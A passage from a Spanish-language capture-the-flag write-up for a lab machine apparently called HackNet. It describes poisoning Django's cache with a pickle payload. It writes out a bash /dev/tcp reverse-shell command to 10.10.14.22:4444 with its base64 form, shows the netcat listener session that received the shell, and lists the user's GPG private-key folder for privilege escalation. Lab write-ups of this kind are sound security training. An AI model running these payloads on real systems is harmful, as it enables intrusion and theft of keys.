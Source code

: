 Por lo tanto la idea es generar un exploit que django desserialize ejectuando en contexto sandy y logrando un reverse shell o RCE.

Flow:

1. Subir el exploit a /tmp 
2. Serciorarse de que **/var/tmp/django_cache/** este vacio
3. Ejecutamos el exploit.

Exploit:

1. Generamos payload y codificamos a base64

```bash
echo "(bash >& /dev/tcp/10.10.14.22/4444 0>&1) &" | base64
KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvNDQ0NCAwPiYxKSAmCg==
```

2. Componemos el exploit en 3 partes:

* Setteo de variables,
	1. directorio del cache **/var/tmp/django_cache** 
	2. comando a ejecutar, **KGJhc2ggPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjIvNDQ0NCAwPiYxKSAmCg==**

* Generamos el pickle payload

* Ejecutamos un loop que inyecte el payload por cada archvio *.djcache dentro del directorio

Una vez ejecutado el exploit navegamos en el sitio con el receptor activo para que django active su sistema de cache y obtenemos el shell.

#### Paso 4: Escalada de privilegios

```bash
nc -lvnp 4444    
listening on [any] 4444 ...
connect to [10.10.14.22] from (UNKNOWN) [10.10.11.85] 32782
whoami
sandy
ls -la .ssh
ls: cannot access '.ssh': No such file or directory
SHELL=/bin/bash script -q /dev/null
sandy@hacknet:/var/www/HackNet$ 
```

Podemos ver en el directorio /home/sandy una carpeta **.gnupg** que dentro contiene lo siguiente:

[GPG-Keys](https://www.privex.io/articles/what-is-gpg/) [Exploit Notes](https://exploit-notes.hdks.org/exploit/cryptography/algorithm/gpg/)

```bash
sandy@hacknet:~$ ls -la .gnupg                                                                                           

total 32                                                                                                             
drwx------ 4 sandy sandy 4096 Sep  5 11:33 .                                                                         
drwx------ 6 sandy sandy 4096 Sep 11 11:18 ..                                                                                                        
drwx------ 2 sandy sandy 4096 Sep  5 11:33 openpgp-revocs.d                                                                                          
drwx------ 2 sandy sandy 4096 Sep  5 11:33 private-keys-v1.d                                                                                         
-rw-r--r-- 1 sandy sandy  948 Sep  5 11:33 pubring.kbx                                                                                               
-rw------- 1 sandy sandy   32 Sep  5 11:33 pubring.kbx~                                                                                              
-rw------- 1 sandy sandy  600 Sep  5 11:33 random_seed                                                                                               
```
